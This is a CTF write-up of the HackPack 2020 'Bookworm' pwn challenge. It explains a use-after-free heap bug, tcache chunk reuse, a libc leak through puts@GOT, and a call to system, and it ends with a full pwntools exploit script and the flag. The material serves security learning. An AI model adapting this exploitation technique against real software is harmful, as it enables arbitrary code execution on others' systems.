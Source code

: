 <h1>Bookworm</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
Bookworm: a book collection service.

<h3>Solution:</h3>
After looking at the binary through Ghidra, we can see that there is a use after free vulnerability both with the read_summary and write_summary functions since the delete_book function never actually nulls the pointer.  Looking at how the heap is allocated and freed can help us understand how to exploit this vulnerability.

![Image of Vis01](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis01.png)

Notice that when a book is made, the address of the read_summary function is on the block just below the summary and a pointer to the summary's address is also below it.  Once this chunk is freed:

![Image of Vis02](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis02.png)

The tcachebins have the area where the function address initially was delegated for the next heap allocation.  So when we allocate another book:

![Image of Vis03](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis03.png)

The summary is now located where book 0s function call and ptr were.  This gives us as many arbitrary function calls, with a single arg, as we want.  One thing to note is that the summary can be changed, and therefore has to be smaller than 23 bytes and the title has to be over 23 bytes so that the summary of book 1 will be where the function calls of book 0 were.

Since there is no PIE we could call whatever functions are available, but I see nothing that we can use to get the flag.  This means we will need to access libc in order to call system.  One function available for us is puts, which we can feed a location on the plt to get a libc address which we can then use to calculate the libc address of system, I used puts itself.  

![Image of Vis04](https://github.com/h3lpful/ctf_writeups/blob/master/bookworm/images/vis04.png)

With this method we need one more leak, since system takes a pointer, and we can target the locations of our first book titled "cat flag.txt".  Using Ghidra to find the location of the variable bookcase, we can get a leak of the heap location the first element of the bookcase variable is pointing too, and calculate the offset to our "cat flag.txt".

Once that is done the only thing left is to build the payloads.  Below is the exploit code I used:

```Python3
from pwn import *

target = './bookworm'

#context.log_level = 'error'
context.update(terminal = ['tmux','splitw'])

#==========================================================
#           FUNCTIONS
#==========================================================

def insert_book(s1,name,s2,summary):
    p.recvuntil('>>')
    p.sendline('1')
    p.recvuntil('size:')
    p.sendline(s1)
    p.recvuntil('name:')
    p.sendline(name)
    p.recvuntil('size:')
    p.sendline(s2)
    p.recvuntil('summary:')
    p.sendline(summary)

def delete_book(bookid):
    p.recvuntil('>>')
    p.sendline('2')
    p.sendline(bookid)

def write_sum(bookid,s1,summary):
    p.recvuntil('>>')
    p.sendline('3')
    p.sendline(bookid)
    p.sendline(s1)
    p.sendline(summary)

def call_fun(bookid):
    p.recvuntil('>>')
    p.sendline('4')
    p.sendline(bookid)

#==========================================================
#           CODE
#==========================================================

#p = process(target, env={"LD_PRELOAD":"./home/helpful/git/ctf_writeups/bookworm/libc.so.6"})
p = remote('cha.hackpack.club',41720)

#gdb.attach(p)

pl1 = p64(0x400700)      #puts call (thunk)
pl1 += p64(0x41414141)   #padding
pl1 += p64(0x602020)     #puts @got.plt

insert_book('23','cat flag.txt','23','CCCCCCCCDDDDDDDD')    # first book will also hold our cat flag.txt command for our system call
delete_book('0')                                            # free the book
insert_book('24','AAAABBBB', '23', 'GGGGGGGGHHHHHHHH')      # make new book and ensure the summary is shorter than 24 and the name is longer.  this causes the summary to be written where book 0s function calls were

write_sum('1','24',pl1)                                     # makes book 0s call a puts to the puts location on the plt
call_fun('0')

puts_leak = p.recvline()                                    # saves the leaked libc address for puts
puts_leak = puts_leak.split(b': ')[1].rstrip(b'\n')
sys_addr = int.from_bytes(puts_leak, byteorder='little')
sys_addr = sys_addr - 202112                                # calculates system address based on the difference between system and puts in the libc.so.6 binary


pl2 = p64(0x400700)                                         # second payload to leak the heap address of the first book name "cat flag.txt" 
pl2 += p64(0x42424242)
pl2 += p64(0x6020c0)

write_sum('1','24', pl2)
call_fun('0')

ptr_leak = p.recvline()
ptr_leak = ptr_leak.split(b': ')[1].rstrip(b'\n')
ptr_leak = int.from_bytes(ptr_leak, byteorder='little')


pl3 = p64(sys_addr)                                         # third payload uses both leaked addresses to call system with a ptr to the heap address of "cat flag.txt"
pl3 += p64(0x43434343)
pl3 += p64(ptr_leak - 0x40) 
        
write_sum('1','24',pl3)
call_fun('0')

print(p.recvline().split(b': ')[1].rstrip(b'\n'))

p.close()

```

flag{N0th1ng_1$_3v3r_Fr33}
